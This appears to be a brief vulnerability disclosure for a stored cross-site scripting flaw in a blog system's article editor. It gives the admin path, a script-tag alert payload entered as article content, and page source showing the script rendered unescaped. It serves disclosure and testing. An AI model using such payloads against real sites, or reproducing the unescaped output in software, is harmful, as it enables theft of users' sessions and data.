

# Briefly

When editing published articles, malicious payloads can be entered, which can be exploited by attackers to steal sensitive user information.

# Process demonstration

Administrator logs in to the website and visits the/mc admin/post.php path，Click on 'Write Article', enter the title and content, and publish the article




Then click on Write Article, select the article and edit it, and fill in Payload in the content section, and save it


Payload：

```
<script>alert('xss')</script>
```

Then check the article and a pop-up window will appear


View the source code of the webpage, embed Payload in the webpage

```
<div id="content_box">
    <div class="post">
      <h1 class="title"><a href="http://url/?post/aaaaaa">1111</a></h1>
      <div class="tags"> by 神秘人 at 2023-06-30</div>
      <div class="content"><script>alert('xss')</script>
```

